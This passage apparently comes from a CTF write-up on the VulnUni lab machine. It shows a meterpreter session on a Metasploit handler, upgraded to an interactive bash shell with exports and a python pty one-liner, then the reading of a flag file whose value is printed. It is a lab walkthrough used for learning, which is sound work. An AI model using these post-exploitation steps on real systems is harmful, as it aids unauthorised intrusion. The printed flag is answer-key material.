         <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni8.png">
    </div>
</div>
<div class="caption">
    Receiving a shell on the metasploit multi/handler 
</div>    

I spent some time running through meterpreter enumeration scripts to gather more details on the target. Once I gathered enough information, I dropped into a shell to run some linux privilege escalations scripts. Using the shell command, I dropped into a low interactive shell. To upgrade, I ran the following exports and used a simple python script to open up a bash shell.

```bash
root@kali$ meterpreter > shell
Process 2181 created.
Channel 1 created.
export TERM=xterm
export SHELL=bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@vulnuni:/root@kali$
```

With a better shell, I did some manual navigating on the target and came across a flag in the vulnuni/home directory.

```bash
www-data@vulnuni$ ls
ls
Desktop    Downloads  Pictures  Templates  examples.desktop
Documents  Music      Public    Videos     flag.txt
www-data@vulnuni:/home/vulnuniwww-data@vulnuni$ cat flag.txt
cat flag.txt
68fc668278d9b0d6c3b9dc100bee181e
```  

